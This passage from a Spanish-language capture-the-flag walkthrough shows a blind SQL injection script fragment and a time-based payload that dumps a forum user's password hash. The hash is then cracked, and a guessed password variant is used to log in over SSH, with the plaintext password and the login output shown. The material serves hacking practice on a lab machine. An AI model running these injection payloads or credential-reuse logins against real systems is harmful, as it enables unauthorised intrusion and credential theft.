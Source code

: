 ```bash
            if 'New things' not in r.text:
                credentials += character
                l2.status(credentials)
                break

if __name__ == "__main__":
    makeRequest()
```
Lo ejecutamos y nos dumpea el usuario y una contraseña que esta encryptada.
```bash
❯ python3 sqlDumper.py
[ ] Aplicando fuerza Bruta : 1 and if(substring((select group_concat(username,0x3a,password) from forum_owner),149,1)=':', sleep(0),1)
[┐] columns: carlos:6705fe62010679f04257358241792b41acba4ea896178a40eb63c743f5317a09faefa2e056486d55e9c05f851b222e6e7c5c1bd22af135157aa9b02201cf4e99
```

## Intrusion
Podemos ir a [Crackstation](https://crackstation.net/) y pasarle el hash para ver si esta en el diccionario que emplean.

![](/assets/img/literal/decryp.png) 

Bueno obtenemos una contraseña en texto claro, esta contraseña no nos va a servir para loguernos en ningun servicio pero si le prestamos atencion a la contraseña esta referenciando forum que es subdomonio y un numero, y si hay una similitud en la contraseña y lo unico que cambia es el nombre del servicio?, por ejemplo la misma contraseña pero en ves de forum le ponemos ssh?.

Si lo probamos nos funciona y obtenemos acceso a la maquina.

```bash
❯ sshpass -p 'ssh100889' ssh carlos@192.168.1.8
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-150-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 07 Jun 2023 11:24:07 PM UTC

  System load:             0.23
  Usage of /:              22.4% of 33.99GB
  Memory usage:            78%
  Swap usage:              7%
  Processes:               113
  Users logged in:         0
  IPv4 address for enp0s3: 192.168.1.8
  IPv6 address for enp0s3: 2800:e2:2580:437:a00:27ff:fe4c:64e1

```